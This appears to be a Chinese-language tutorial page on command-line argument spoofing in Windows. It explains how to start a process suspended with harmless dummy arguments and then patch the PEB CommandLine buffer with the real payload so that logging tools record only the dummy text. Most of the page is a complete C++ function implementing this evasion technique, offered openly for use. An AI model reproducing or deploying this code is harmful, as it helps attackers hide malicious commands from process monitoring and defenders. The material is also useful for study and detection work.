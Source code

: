 # Commandline Spoofing

进程参数欺骗是一种用于隐藏新生成的进程的命令行参数的技术，以便于执行命令，而不会将它们透露给日志服务，例如[Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon)。

要执行命令行参数欺骗，必须首先创建一个处于挂起状态的目标进程，并传递不被视为可疑的虚拟参数。在恢复进程之前，`PEB->ProcessParameters.CommandLine.Buffer` 需要使用所需的有效负载字符串修补该字符串，这将导致日志记录服务记录虚拟参数而不是要执行的实际命令行参数。要执行此过程，必须执行以下步骤：

1. 创建处于挂起状态的目标进程。
2. `PEB`获取创建的进程的远程地址。
3. `PEB`从创建的进程中读取远程结构。
4. `PEB->ProcessParameters`从创建的进程中读取远程结构。
5. 修补字符串`ProcessParameters.CommandLine.Buffer`，并用要执行的有效负载覆盖。
6. 恢复该过程。

在运行时写入的有效负载参数的长度`Peb->ProcessParameters.CommandLine.Buffer` 必须小于或等于挂起进程创建期间创建的虚拟参数的长度。如果真实参数较大，它可能会覆盖虚拟参数之外的字节，导致进程崩溃。为了避免这种情况，请始终确保虚拟参数大于将执行的参数。



```c++
BOOL CreateArgSpoofedProcess(IN LPWSTR szStartupArgs, IN LPWSTR szRealArgs, OUT DWORD* dwProcessId, OUT HANDLE* hProcess, OUT HANDLE* hThread) {

	NTSTATUS                      STATUS   = NULL;

	WCHAR                         szProcess [MAX_PATH];

	STARTUPINFOW                  Si       = { 0 };
	PROCESS_INFORMATION           Pi       = { 0 };

	PROCESS_BASIC_INFORMATION     PBI      = { 0 };
	ULONG                         uRetern  = NULL;

	PPEB                          pPeb     = NULL;
	PRTL_USER_PROCESS_PARAMETERS  pParms   = NULL;


	RtlSecureZeroMemory(&Si, sizeof(STARTUPINFOW));
	RtlSecureZeroMemory(&Pi, sizeof(PROCESS_INFORMATION));

	Si.cb = sizeof(STARTUPINFOW);

	// Getting the address of the NtQueryInformationProcess function
	fnNtQueryInformationProcess pNtQueryInformationProcess = (fnNtQueryInformationProcess)GetProcAddress(GetModuleHandleW(L"NTDLL"), "NtQueryInformationProcess");
	if (pNtQueryInformationProcess == NULL) 
		return FALSE;


	lstrcpyW(szProcess, szStartupArgs);

	if (!CreateProcessW(
		NULL,
		szProcess,
		NULL,
		NULL,
		FALSE,
		CREATE_SUSPENDED | CREATE_NO_WINDOW,      // creating the process suspended & with no window
		NULL,
		L"C:\\Windows\\System32\\",               // we can use GetEnvironmentVariableW to get this Programmatically
		&Si,
		&Pi)) {
		printf("\t[!] CreateProcessA Failed with Error : %d \n", GetLastError());
		return FALSE;
	}


	// Getting the PROCESS_BASIC_INFORMATION structure of the remote process which contains the PEB address
	if ((STATUS = pNtQueryInformationProcess(Pi.hProcess, ProcessBasicInformation, &PBI, sizeof(PROCESS_BASIC_INFORMATION), &uRetern)) != 0) {
		printf("\t[!] NtQueryInformationProcess Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	
	// Reading the PEB structure from its base address in the remote process
	if (!ReadFromTargetProcess(Pi.hProcess, PBI.PebBaseAddress, &pPeb, sizeof(PEB))) {
		printf("\t[!] Failed To Read Target's Process Peb \n");
		return FALSE;
	}

	// Reading the RTL_USER_PROCESS_PARAMETERS structure from the PEB of the remote process
	// Read an extra 0xFF bytes to ensure we have reached the CommandLine.Buffer pointer
	// 0xFF is 255 but it can be whatever you like
	if (!ReadFromTargetProcess(Pi.hProcess, pPeb->ProcessParameters, &pParms, sizeof(RTL_USER_PROCESS_PARAMETERS) + 0xFF)) {
		printf("\t[!] Failed To Read Target's Process ProcessParameters \n");
		return FALSE;
	}

	// Writing the real argument to the process
	if (!WriteToTargetProcess(Pi.hProcess, (PVOID)pParms->CommandLine.Buffer, (PVOID)szRealArgs, (DWORD)(lstrlenW(szRealArgs) * sizeof(WCHAR) + 1))) {
		printf("\t[!] Failed To Write The Real Parameters\n");
		return FALSE;
	}


	// Cleaning up
	HeapFree(GetProcessHeap(), NULL, pPeb);
	HeapFree(GetProcessHeap(), NULL, pParms);

	// Resuming the process with the new paramters
	ResumeThread(Pi.hThread);

	// Saving output parameters
	*dwProcessId     = Pi.dwProcessId;
	*hProcess        = Pi.hProcess;
	*hThread         = Pi.hThread;

	// Checking if everything is valid
	if (*dwProcessId != NULL, *hProcess != NULL && *hThread != NULL)
		return TRUE;

	return FALSE;
}
```

